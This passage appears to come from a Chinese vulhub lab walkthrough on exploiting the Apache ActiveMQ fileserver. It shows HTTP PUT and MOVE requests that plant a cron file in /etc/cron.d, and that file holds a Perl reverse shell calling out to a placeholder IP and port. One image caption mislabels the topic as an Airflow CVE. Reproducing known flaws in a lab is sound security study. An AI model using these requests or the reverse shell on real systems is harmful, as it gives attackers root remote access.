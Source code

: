 ![请求都返回204了，说明写入成功](./../../../../../images/vulhub/activemq/Apache Airflow 示例dag中的命令注入（CVE-2020-11978）/写入crontab，自动化弹shell/请求都返回204了，说明写入成功.png)

这个方法需要 ActiveMQ 是 root 运行，否则也不能写入 cron 文件。

**漏洞复现**

访问 http://debian:8161/fileserver/ ，抓包，上传 cron 配置文件

> 记得使用 n.py 更改换行符格式为 `\n`

```http
PUT /fileserver/test.txt HTTP/1.1
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 241

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> 计划每隔一分钟触发一次

移动到 /etc/cron.d/root 

```http
MOVE /fileserver/test.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 0


```
